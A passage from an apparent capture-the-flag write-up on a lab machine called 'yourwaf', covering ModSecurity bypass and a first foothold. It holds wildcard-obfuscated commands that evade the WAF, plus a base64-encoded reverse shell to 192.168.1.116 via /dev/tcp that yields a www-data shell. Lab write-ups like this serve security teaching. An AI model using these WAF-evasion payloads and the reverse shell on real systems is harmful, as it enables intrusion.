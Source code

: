 We try something with:

`/?i?/c?t index.php`

But it returns an error:

![img_p5_3](/assets/yourwaf/img_p5_3.png)

We try the same, but we also encode the output in base64:

`/?i?/c?t index.php | base64`

This time we get a text in base64:

![img_p6_1](/assets/yourwaf/img_p6_1.png)

When converting it to plain text, we finally get the source code of index.php after a lot of incomprehensible text of possible executed commands:

![img_p6_2](/assets/yourwaf/img_p6_2.png)

As you can see, the code has no validation, so we try to create a revshell that ModSecurity can "swallow":

We create a simple revshell and encode it in base64:

`sh -i >& /dev/tcp/192.168.1.116/433 0>&1`

In base64:

`c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjExNi80MzMgMD4mMQ==`

The idea is to execute:

`/bin/echo c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjExNi80MzMgMD4mMQ== | base64 -d | /bin/bash -e`

If we execute it as is, it will show us a "Forbidden," but if we transform it with wildcard characters "?", for example:

`/???/e??o c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjExNi80MzMgMD4mMQ== | base64 -d | /???/b??h -e`

We get a revshell with the user www-data.

## Lateral Movement to tester

Now we can enumerate system users

![img_p8_1](/assets/yourwaf/img_p8_1.png)

We see a user: tester.

To which groups does www-data belong:

![img_p8_2](/assets/yourwaf/img_p8_2.png)

Both in `/var/www/www.yourwaf.nyx` and in `/var/www/maintenance.yourwaf.nyx`, we do not find anything interesting, and the user www-data does not have permissions to modify anything here.

But we find something interesting in the `/opt/nodeapp` folder, which seems to be the application shown on port 3000. We look at the application code:
